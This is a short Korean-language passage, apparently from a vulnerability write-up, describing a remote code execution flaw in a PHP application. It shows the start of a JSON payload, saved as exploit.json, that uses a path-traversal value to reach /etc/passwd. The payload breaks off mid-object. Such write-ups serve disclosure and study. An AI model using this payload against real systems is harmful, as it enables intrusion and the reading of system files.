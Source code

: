 ### 3. RCE(원격 코드 실행) 취약점

아래의 json 데이터를 PHP 애플리케이션의 Document Root Directory에 `exploit.json` 파일명으로 저장합니다. 해당 데이터는 명령어 실행을 위한 페이로드입니다.

```json
{
    "ticket":"AAAAAAAAAAAAAAAA",
    "type":"normal",
    "filepath":"../../../../../etc/passwd",
    "handler":"dboption",
    "expire":9999999999,
```